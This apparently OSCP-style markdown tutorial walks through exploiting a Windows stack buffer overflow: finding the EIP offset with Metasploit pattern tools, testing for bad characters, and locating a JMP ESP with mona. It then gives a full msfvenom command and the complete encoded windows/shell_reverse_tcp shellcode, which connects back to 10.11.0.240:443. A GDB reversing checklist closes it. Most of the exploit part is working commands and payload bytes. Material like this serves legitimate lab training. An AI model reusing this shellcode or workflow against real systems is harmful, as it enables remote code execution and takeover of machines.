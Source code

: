 # Buffer overflow (BOF)

This is a step-by-step exploitng a windows applciation vulnerable to BOF

Create a unique pattern and feed the exploit with this to identify the exact position of EIP. In the example it will be create a unique string of 2700 chars

```
$ msf-pattern_create -l 2700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8A....
```

Open the vulnerable applciation on Immunity Debugger and execute. Check the EIP value, in this example it shows
```
39 69 44 38
```

# Find exact string position where EIP will be overwritten

Feed the values that is on EIP register to find the offset
```
> msf-pattern_offset.rb -q 39694438
[*] Exact match at offset 2606
```
In this example it will take 2606 chars until it gets to the EIP register. For example, if we want to fill the EIP register with B's we would send this string:
```
string = "A" * 2606 + "BBBB" + "C" * 500
```

Now that we control the  EIP we can manipulate the program flow. We can make the program execute a shell code that we want

# Size of shellcode
Keep in mind that sometimes we need to care about the Shellcode size. 
ShellCode for a reverse _tcp.
350 and 400 bytes of space

# Finding bad chars Bad Chars
Buffer Overlow when using string copy: 
- null hex code: 00 (because it flag end of the string so everything after the null byte will be ignored)
- 0x0D (return carriage)
- ax0A (line feed)

Send all chars from \x00 to \xFF and manually check in the memory dump each value if it's in the correct order.
Let's say that you look into the memory dumo and see: "\x00\x01\xB0" in this case the char after \x01 should be \x02 but we got \B0. 

It means that \x02 is a bad char, remove the \x02 from the string and send it again. Repeat the process until all bad chars are gone.

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
# Find modules and dlls used by a program, in this way I can try to use a DLL do JMP to my ESP
We a looking for a DLL that was compiled without ASLR, SafeSEH, NXCompat
!mona modules
!mona find -s "\xff\xe4" -m slmfc.dll

# Finding out opcode for each instructions
it makes easier to search inside the debugger for this instruction

> /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp

# Creating a shellcode
> msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.240 LPORT=443 -f c -a x86 --platform windows -b '\x00\x0d\x0a' -e x86/shikata_ga_nai
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xd9\xed\xb8\x08\x9c\xb4\xea\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x52\x31\x42\x17\x83\xea\xfc\x03\x4a\x8f\x56\x1f\xb6\x47\x14"
"\xe0\x46\x98\x79\x68\xa3\xa9\xb9\x0e\xa0\x9a\x09\x44\xe4\x16"
"\xe1\x08\x1c\xac\x87\x84\x13\x05\x2d\xf3\x1a\x96\x1e\xc7\x3d"
"\x14\x5d\x14\x9d\x25\xae\x69\xdc\x62\xd3\x80\x8c\x3b\x9f\x37"
"\x20\x4f\xd5\x8b\xcb\x03\xfb\x8b\x28\xd3\xfa\xba\xff\x6f\xa5"
"\x1c\xfe\xbc\xdd\x14\x18\xa0\xd8\xef\x93\x12\x96\xf1\x75\x6b"
"\x57\x5d\xb8\x43\xaa\x9f\xfd\x64\x55\xea\xf7\x96\xe8\xed\xcc"
"\xe5\x36\x7b\xd6\x4e\xbc\xdb\x32\x6e\x11\xbd\xb1\x7c\xde\xc9"
"\x9d\x60\xe1\x1e\x96\x9d\x6a\xa1\x78\x14\x28\x86\x5c\x7c\xea"
"\xa7\xc5\xd8\x5d\xd7\x15\x83\x02\x7d\x5e\x2e\x56\x0c\x3d\x27"
"\x9b\x3d\xbd\xb7\xb3\x36\xce\x85\x1c\xed\x58\xa6\xd5\x2b\x9f"
"\xc9\xcf\x8c\x0f\x34\xf0\xec\x06\xf3\xa4\xbc\x30\xd2\xc4\x56"
"\xc0\xdb\x10\xf8\x90\x73\xcb\xb9\x40\x34\xbb\x51\x8a\xbb\xe4"
"\x42\xb5\x11\x8d\xe9\x4c\xf2\xb8\xe6\x4e\xf2\xd5\xfa\x4e\xf3"
"\x9e\x72\xa8\x99\xf0\xd2\x63\x36\x68\x7f\xff\xa7\x75\x55\x7a"
"\xe7\xfe\x5a\x7b\xa6\xf6\x17\x6f\x5f\xf7\x6d\xcd\xf6\x08\x58"
"\x79\x94\x9b\x07\x79\xd3\x87\x9f\x2e\xb4\x76\xd6\xba\x28\x20"
"\x40\xd8\xb0\xb4\xab\x58\x6f\x05\x35\x61\xe2\x31\x11\x71\x3a"
"\xb9\x1d\x25\x92\xec\xcb\x93\x54\x47\xba\x4d\x0f\x34\x14\x19"
"\xd6\x76\xa7\x5f\xd7\x52\x51\xbf\x66\x0b\x24\xc0\x47\xdb\xa0"
"\xb9\xb5\x7b\x4e\x10\x7e\x8b\x05\x38\xd7\x04\xc0\xa9\x65\x49"
"\xf3\x04\xa9\x74\x70\xac\x52\x83\x68\xc5\x57\xcf\x2e\x36\x2a"
"\x40\xdb\x38\x99\x61\xce";

# Waiting for a reverse shell
Open metasploit and use the same payload that was used to create the shellcode and listen for the connection.
Sometimes, listening only with Netcat is not enough

```use exploit/multi/handler```





##Methodology

1. Investigate the file
```
file
strings
```

2. Test it out - what does the program do?

3. Look at its functions in GDB

```
info functions
```

4. Look at the assembly of a function

```
disass main
disass otherfunction
```

5. Look for the flow of the program. Look for cmp

6. Set up breakpoints with hooks

```
define hook-stop
info registers  ;show the registers
x/24xw $esp  ;show the stack
x/2i $eip  ;show the new two instructions
end
```

7. Step through the whole program. Or at the breakpoints

```
si ;steps one forward, but follows functions
ni ;does not follow functions
```
